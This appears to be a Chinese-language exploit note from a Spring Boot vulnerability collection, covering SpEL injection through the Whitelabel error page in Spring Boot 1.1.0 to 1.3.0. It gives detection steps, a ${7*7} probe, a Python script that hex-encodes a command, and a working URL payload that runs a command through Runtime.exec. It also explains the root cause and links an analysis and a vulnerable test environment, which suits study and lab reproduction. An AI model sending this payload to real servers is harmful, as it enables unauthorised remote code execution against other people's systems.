

# whitelabel error page SpEL RCE

## 利用条件：

- spring boot 1.1.0-1.1.12、1.2.0-1.2.7、1.3.0
- 至少知道一个触发 springboot 默认错误页面的接口及参数名

## 利用方法：

### 步骤一：找到一个正常传参处

比如发现访问 `/article?id=xxx` ，页面会报状态码为 500 的错误： `Whitelabel Error Page`，则后续 payload 都将会在参数 id 处尝试。

### 步骤二：执行SpEL表达式

输入 `/article?id=${7*7}` ，如果发现报错页面将 7*7 的值 49 计算出来显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。

由字符串格式转换成 `0x**` java 字节形式，方便执行任意代码：

```python
# coding: utf-8

result = ""
target = 'calc'
for x in target:
    result += hex(ord(x)) + ","
print(result.rstrip(','))
```

执行 calc 命令

```
http://localhost:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x63,0x61,0x6c,0x63}))}
```



## 漏洞原理：

1. spring boot 处理参数值出错，流程进入 `org.springframework.util.PropertyPlaceholderHelper` 类中
2. 此时 URL 中的参数值会用 `parseStringValue` 方法进行递归解析
3. 其中 `${}` 包围的内容都会被 `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` 类的 `resolvePlaceholder` 方法当作 SpEL 表达式被解析执行，造成 RCE 漏洞

## 漏洞分析：

 [SpringBoot SpEL表达式注入漏洞-分析与复现](https://www.cnblogs.com/litlife/p/10183137.html)

## 漏洞环境：

[repository/springboot-spel-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-spel-rce)